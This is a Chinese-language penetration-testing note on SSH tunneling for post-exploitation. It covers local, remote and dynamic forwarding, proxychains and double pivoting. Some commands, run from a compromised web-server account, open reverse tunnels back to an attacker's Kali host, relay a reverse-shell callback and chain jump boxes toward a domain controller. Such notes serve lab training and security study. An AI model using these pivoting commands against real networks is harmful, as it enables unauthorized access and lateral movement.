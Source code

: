 ```yaml
---
tags:
  - 渗透/后渗透
---
```

## SSH原理概述

> https://www.ramkitech.com/2012/04/how-to-do-ssh-tunneling-port-forwarding.html
> 在terminal中，当我们敲入ssh someone@private-server.org时，terminal application将调用ssh client，ssh client则连接到private-server.org机器的22端口(由ssh server监听).然后client和server交换Identitiy,public key, cipher suite info并且在server端创建一个新的shell process.随后client和server之间就建立了安全的通道了,这样之后的所有command及response都通过这个secure channel来传递。
> 比如当ssh连接建立后，我执行ls命令。那么ls命令将由ssh client加密封装通过该通道发往server。server则解密取出命令'ls'并且在shell(该shell就是ssh链接创建时所创建的)中执行,所有的输出将被redirect到该隧道的另一端-ssh client上,最后ssh client则解密取出output消息打印在terminal application上。

- ssh 可以同时有许多channels（Shell、Data、X11 Forwarding等），每个channel代表一个服务。
- 通常情况下我们就是使用的 shell channel（可以用 `-N` 忽略创建），但ssh隧道模式下我们用的 data channel。

## 3种类型

### 命令总结

`ssh -L/R [bind_address:]sourcePort:forwardToHost:onPort remoteHost`

- L/R指示 `sourcePort` 是在localhost端（执行命令的host）还是remoteHost
	- 注意：`sourcePort` 是指L/R（本地/远端）要开启监听的端口。例如-R的话是指在远端开启，本地是不会开启端口监听的。
- `forwardToHost:onPort` 不必局限在2台机器之间（参考）
- 注意可以定义多个 -L/R


#### OPSEC

![[Pasted image 20240817183916.png]]

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

- 在Ajla上用www-data用户执行远程端口转发
- 防止在目标机器上保存我们kali的主机公钥
- 为www-data用户生成ssh密钥，并加一些限制（srcIP、仅端口转发、不分配伪终端），将公钥加入kali的 `authorized_keys` 文件：`from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3Nz<SNIP>nin www-data@ajla`


#### 有用选项

-fNTCg

- -f：后台进程，不占用当前shell，只有认证时会到前台。（似乎即使Meterpreter进程死了，ssh隧道依旧生效）
- -N：静默连接（只当作隧道。即不创建shell channel，不登录到远程shell、不发出ssh命令）
- -T：远程主机上不分配伪终端。**通常和N连用**，不过分配了也没事，只是有点没必要。（扩展：本机连接远程远程主机的交互实际上是在与远程主机的伪终端交互）
- -C：压缩。减少带宽，但是可能增加CPU负荷（因为要加解压缩）
- -g：GatewayPorts 关键字，我们可以通过指定它使得其他机器也能使用这个本地端口转发。允许远端host连接本地用于转发的端口。本地端口转发绑定的是 lookback 接口（即上面 `bind_address` 的部分，不开启GatewayPorts配置的话，这里默认localhost），这意味着只有 localhost 或者 127.0.0.1 才能使用本机的端口转发 , 其他机器发起的连接只会得到“ connection refused. ”。【如果不加这个参数，只允许本地主机使用这个端口转发。更安全】


### 1.动态端口转发

- 动态：不必为每个目标创建本地监听端口，一个动态端口应付所有目标——比本地端口转发简约。
	- 服务器检查数据包并决定我们需要将数据包发送到哪里

```shell-session
ssh -D 9050 ubuntu@10.129.15.50
```
![[Pasted image 20240817182226.png]]{ width='600' }

就是在SSH Client前设置个（SOCKS）代理server，并绑定local port 9050。随后用登陆ubuntu并建立ssh connection。

之后在浏览器配置SOCKSv5代理就可以用浏览器访问ubuntu甚至是内网（因为命令在ubuntu解析，ubuntu有内网路由）的资源了。

#### proxychains

> [!note] 现在用proxychains-ng

配置代理IP：`sudo vim /etc/proxychains4.conf`
使用proxychains：`proxychains4 remmina`


也可以在 `~/.ssh/ssh_config` 里添加配置方便操作：
```
Host dest   
	Hostname 192.168.56.10   
	Port 22   
	User ubuntu   
	IdentityFile ~/.ssh/id_rsa
	DynamicForward localhost:5963
```

运行 `ssh dest` 之后，ssh会在本地绑定一个支持SOCKS协议的端口（此处为5963）。


### 2.本地端口转发

```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
![[Pasted image 20240817183232.png]]{ width='600' }

相当于本地ssh client充当代理。Attack的ssh client的监听绑定了1234端口，所以所有到1234的流量都会转发到ssh client，然后流向远端。


进行连接的命令其实会根据remote port的服务进行选择。如可以这样：

- 转发ftp端口：`ftp localhost:localport`
- 转发rdp端口：`rdesktop localhost:localport`


### 3.远程端口转发

```shell-session
ssh -R <PivotHost>:8080:0.0.0.0:8000 ubuntu@<Target> -vN
```
![[Pasted image 20240817183638.png]]{ width='600' }

上图的例子中，Victim执行的msfvenom payload是回连 `Ubuntu的8080`，handler监听 `0.0.0.0:8000`。  
反弹shell回连Ubuntu后通过SSH隧道转发到本地8000端口，得以成功远控。


#### SSH Reverse Dynamic Forward

![[Pasted image 20240817185238.png]]{ width='500' }



## For Windows

### 建立ssh服务端

- WinSSHD： [https://www.bitvise.com/ssh-server](https://www.bitvise.com/ssh-server)
- OpenSSH： [https://sshwindows.sourceforge.net/](https://sshwindows.sourceforge.net/)

关于Proxifier： [https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)


> [!note] 或者在cmd使用[[SSH Tunneling#SSH Reverse Dynamic Forward|远程动态转发]]！




## 高级运用

### Double Pivoting

> https://theyhack.me/Proxychains-Double-Pivoting/

![[Pasted image 20240818001741.png]]{ width='500' }

目标：从attack访问destbox。  
可以想象box1为WebSrv，box2为FileSrv，destbox为DC/特权PC。  
假设box1连接box2、box2连接destbox可以简单实现（因为都属于内网）。  
于是attack无法正向连接box1是通常的情况，所以需要box1反连attack。
#### reverse tunneling

```bash
# 1. attack:2222 ==== jumpbox1:22
they@jumpbox1.local:~$ ssh -fN -R 2222:127.0.0.1:22 <you>@attack.local
# 2. attack上的动态端口8888，连接到jumpbox1
they@attack.local:~$ ssh -fN -D 8888 <jumpbox1-user>@127.0.0.1 -p 2222
## 1&2 in oneline
they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -fN -D 8888 127.0.0.1 -p 2222"

# 连接到box1之后重复执行动态隧道的步骤——即前文假设可简单实现的内容
they@jumpbox1.local:~$ ssh -fN -D 9999 user@jumpbox2.local

# 攻击机的proxychains.conf配置
<SNIP>
[ProxyList]
socks4  127.0.0.1 8888
socks4  127.0.0.1 9999 # For box1 to box2

# 访问destbox
they@attack.local:~$ proxychains4 -f proxychains.conf curl http://destbox.local
```

- 建议配置 `jumpbox1-user` 的有限制免密连接：[restrict accordingly to just tunnels](https://unix.stackexchange.com/questions/14312/how-to-restrict-an-ssh-user-to-only-allow-ssh-tunneling/14313#14313)


#### 内网隧道的另一实现思路

> https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6

按该文思路，针对前一节的“假设box1连接box2、box2连接destbox可以简单实现”的命令：
```bash
# 1. box2上建立动态隧道，但是SSH服务端在box2的loopback
they@jumpbox2.local:~$ ssh -D 10000 <jumpbox1-user>@127.0.0.1
# 2. box1:9999 ==== box2:10000
they@jumpbox2.local:~$ ssh -R 9999:127.0.0.1:10000 <jumpbox1-user>@jumpbox1.local

# 在攻击机上
# 正向连接box1：配置127.0.0.1:8888，然后用proxychains即可。
# 从box1反向隧道：参照前一节。
```
